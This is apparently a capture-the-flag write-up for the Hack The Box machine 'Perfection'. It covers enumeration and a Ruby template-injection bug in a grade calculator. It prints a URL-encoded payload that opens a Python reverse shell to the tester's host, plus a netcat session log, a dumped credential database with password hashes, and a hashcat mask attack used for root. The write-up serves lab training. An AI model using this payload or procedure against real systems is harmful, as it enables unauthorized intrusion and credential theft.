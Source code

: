 ```yaml
---
title: HTB:Perfection
date: 2024-03-15
categories: [HTB]
tags: [HTB]     # TAG names should always be lowercase
image:
  path: https://i.ibb.co/ftpjjzd/perfection.jpg
---
```


## Enumeration

![nmap-scan](https://i.ibb.co/PF5YTgz/nmap-scan.jpg)

The initial Nmap scan reveals two open ports: SSH (22/tcp) and HTTP (80/tcp). SSH is running on Ubuntu Linux, while the web server is hosting a service titled "Weighted Grade Calculator" on nginx. 

![whatweb](https://i.ibb.co/ZhWc7kc/whatweb.jpg)

 Web server is running a combination of nginx and WEBrick with Ruby version 3.0.2
 
## WebApp

![web](https://i.ibb.co/pxQHQNj/web.jpg)

![calc](https://i.ibb.co/XXJnmDK/perfection-calc.jpg)

After figuring out Weight grade calc is Vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), I tried some Ruby related SSTI payloads, since the WebApp is built with Ruby.

```ruby
<%= 7*7 %> = 49
```
![ssti](https://i.ibb.co/xqV1FWP/ssti.jpg)

## Reverse shell
 Generate a encoded reverse shell with [revshell.com](https://revshells.com/) 
 
    category1=mrx%0A<%25%3d+`python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.24",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'`+%25>&grade1=10&weight1=10&category2=b&grade2=20&weight2=20&category3=c&grade3=30&weight3=30&category4=d&grade4=20&weight4=20&category5=e&grade5=20&weight5=20
 
 ***%0A  - newline character***

![shell](https://i.ibb.co/S6s9x91/reverse-shell.jpg)

Send the payload & catch the shell with Netcat listener.

![nc](https://i.ibb.co/6PQCyHM/nc.jpg)

## User Flag

    kali@kali ~ [1]> sudo nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.24] from (UNKNOWN) [10.10.11.253] 60468
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    susan@perfection:~/ruby_app$ ls
    ls
    main.rb  public  views
    susan@perfection:~/ruby_app$ cd
    cd
    susan@perfection:~$ ls
    ls
    linpeas.sh  Migration  ruby_app  user.txt
    susan@perfection:~$ cat user.txt
    cat user.txt
    7b05f65f1ea8adeced421f18ad692d28

## Root Flag

After further enumerations , found a hash for Susan .

    susan@perfection:~$ cd Migration
    cd Migration
    susan@perfection:~/Migration$ ls
    ls
    pupilpath_credentials.db
    susan@perfection:~/Migration$ strings pupilpath_credentials.db
    strings pupilpath_credentials.db
    SQLite format 3
    tableusersusers
    CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    name TEXT,
    password TEXT
    Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
    David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
    Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
    Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
    Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f


![mail](https://i.ibb.co/s2CMP1X/mail.jpg)

 Customize ​a mask and crack the hash with hashcat to retrieve the root access password.

    hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

```shell
sudo su
```

![root](https://i.ibb.co/NjF6wdn/root.jpg)
